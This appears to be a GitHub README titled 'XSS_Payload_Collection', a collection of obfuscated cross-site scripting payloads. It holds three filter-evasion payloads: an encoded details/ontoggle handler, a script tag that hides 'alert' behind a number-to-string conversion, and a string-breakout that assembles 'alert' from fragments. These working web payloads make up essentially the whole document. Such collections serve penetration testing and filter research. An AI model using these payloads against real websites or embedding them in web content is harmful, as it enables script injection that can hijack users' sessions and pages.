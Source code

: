 # XSS_Payload_Collection
变形 XSS Payload 收集

```html
<dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>

<script>top[8680439..toString(30)](1337)</script>

';k='e'%0Atop['al'+k+'rt'](1)//
```
